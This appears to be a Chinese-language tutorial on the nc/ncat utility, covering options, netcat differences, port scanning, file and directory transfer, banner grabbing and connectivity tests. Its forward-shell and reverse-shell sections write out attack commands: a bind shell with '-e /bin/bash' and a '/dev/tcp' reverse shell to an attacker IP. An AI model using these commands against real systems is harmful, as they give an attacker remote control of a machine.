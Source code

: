 ###### datetime:2024-04-17 09:27:00

###### author:nzb

[Software Defined Networking](https://tonydeng.github.io/sdn-handbook/)

## nc(ncat)

Ncat is a feature-packed networking utility which reads and writes data across networks from the command line；

- `nc(ncat)`：`Ncat`是一个功能丰富的网络实用工具；支持端口监听、远程通信、文件传输、端口扫描、反向Shell、端口转发功能；

- 格式：`ncat [OPTIONS...] [hostname] [port]`

- 常用参数：

| OPTIONS | 意义 | 
| :---: | ----- | 
| -l |  使用监听模式，意味着`nc`被当作`server`，侦听并接受连接，而非向其它地址发起连接 |
| -p |  设置本地主机使用的通信端口 |
| -s |  设置本地主机送出数据包的IP地址 |
| -u |  使用UDP传输协议 |
| -v |  显示指令执行过程 |
| -w |  设置等待连线的时间 |
| -z |  使用0输入/输出模式，只在扫描通信端口时使用 |

### nc、netcat、ncat区别：

- `nc`与`netcat`是一个组件，`ncat`是`nmap`分支下的一个命令；
- `nc / ncat` 在 `CentOS` 上是同一个命令工具，是一个功能丰富的网络实用程序，可通过命令行在网络上读写数据；
- 使用 `ncat` 时，尽量不要使用 `nc`，避免与 `netcat` 冲突；
- 若安装了 `ncat` 时，`nc、netcat`都成了 `ncat` 的 `alias` ，命令行里输入这三者都是一样的；
- `netcat` 和 `ncat` 的 `-z` 参数是不相等的；
- 可通过 `rpm -qa|grep nc` 命令，查看 `nc` 是指 `netcat` 还是 `ncat` ；
- `Ncat` 是在原始 `Netcat` 之上新增功能二次开发的另一款强大工具，也就是说 `Netcat` 有的功能 `Ncat` 都具备，并且 `Ncat` 还有更多强大的功能。

### 参考案例：

- 扫描80端口

```shell
# nc可用ncat代替
$ nc -nvv 192.168.3.1 80
```

- 远程通信

```shell
# ncat 命令在20000端口启动了一个tcp 服务器，所有的标准输出和输入会输出到该端口;
# 输出和输入都在此shell中展示
Server$ nc -l 20000

Client$ nc [Server-IP] 20000

# 打印接收的时间
Server$ nc -l 20000 | ts '[%Y-%m-%d %H:%M:%S]'

Client$ nc [Server-IP] 20000 | ts '[%Y-%m-%d %H:%M:%S]'
```

- 文件传输

```shell
# 从Client传输文件到Server
# 需要在Server上使用nc监听,server上运行监听命令;
Server$ nc -lp 12345 >> test.log
# Client运行传输命令
Client$ nc -w 1 [Server-IP] 12345 < xxx.log

# 从Server传输文件到Client
# 需要在Server上使用nc监听,server上运行监听命令;
Server$ nc -lp 12345 < test.log
# Client运行传输命令
Client$ nc -w 1 [Server-IP] 12345 > xxx.log
```

- 目录传输

```shell
# 从Client传输文件到Server上;需要在Server上使用nc监听,server上运行监听命令;
# tar zxvf -  通过tar zxvf解压,从管道接收到的数据,`-`表示从管道接收数据;
Server$ nc -l 23456|tar zxvf -

# tar zcvf -  通过tar zcvf压缩,将目录`Directory`压缩后传输到管道中;`-`表示输出到管道中;
Client$ tar zcvf - [Directory] | nc [Server-IP] 23456
```

- 抓取`Banner`信息

```shell
# 一旦发现开放的端口，可以容易的使用ncat 连接服务抓取他们的banner
$ nc -v 172.31.100.7 21
```

- 正向`Shell`

正向`shell`是指攻击机主动连接靶机，并取得`shell`。通俗点说就是靶机自己绑定某个端口，等攻击机连接后将收到的数据给`bash`或`cmd`(后文简称`shell`)，执行结果再丢给攻击机。

```shell
# 正向shell是目标机(被攻击方)先执行nc命令，然后攻击机(攻击方)上再进行nc连接，即可反弹shell
# 正向shell需要目标机安装nc
# 正向shell 需要目标机firewalld可过滤

# target: 目标服务器系统(被攻击方)
target$ nc -lkvp 7777 -e /bin/bash

# attack: 攻击者系统(攻击方)
attack$ nc [Target-IP] 7777
```

- 反向`shell`

反向`shell`就是靶机带着`shell`来连攻击机，好处显而易见就是不用担心防火墙的问题了，当然也不是没有缺点；缺点就是攻击机的IP必须能支持靶机的主动寻址，
换句话来说就是攻击机需要有公网IP地址；举个例子如攻击机是内网ip或经过了NAT，靶机是公网IP，即使取得了命令执行权限靶机也无法将shell弹过来，这是网络环境的问题。

```shell
# attack: 攻击者系统(攻击方)
# -k: 当客户端从服务端断开连接后，过一段时间服务端也会停止监听;通过选项 -k 可以强制服务器保持连接并继续监听端口;即使来自客户端的连接断了server也依然会处于待命状态;
attack$ nc -lkvnp 6677

# target: 目标服务器系统(被攻击方)
# -i: 指定断开的时候,单位为秒
Client$ sh -i >& /dev/tcp/192.168.188.69/6677 0>&1
```

- 测试网速

```shell
# 服务端
Server$ nc -l <port> > /dev/null

# 客户端
Client$ nc [Server-IP] <port> < /dev/zero

```

- 测试连通性
    - 测试tcp一般会想到使用`telnet`
    - `telnet`不支持`udp`协议，所以我们可以使用`nc`，`nc`可以支持`tcp`也可以支持`udp`

```shell
# 测试tcp端口连通性
# nc -vz ip tcp-port
$ nc -zv 192.168.188.188 5432
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.188.188:5432.
Ncat: 0 bytes sent, 0 bytes received in 0.01 seconds.

# 测试udp端口连通性
# nc -uvz ip udp-port
$ nc -uzv 192.168.188.188 7899
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.188.188:7899.
Ncat: Connection refused.
```

- 端口监听

```shell
# 临时监听TCP端口
# nc -l port >> filename.out 将监听内容输入到filename.out文件中
$ nc -l 7789 >> a.out

# 永久监听TCP端口
# nc -lk port
$ nc -lk 7789 >> a.out

# 临时监听UDP
# nc -lu port
$ nc -lu 7789 >> a.out

# 永久监听UDP
# nc -luk port
$ nc -luk 7789 >> a.out
```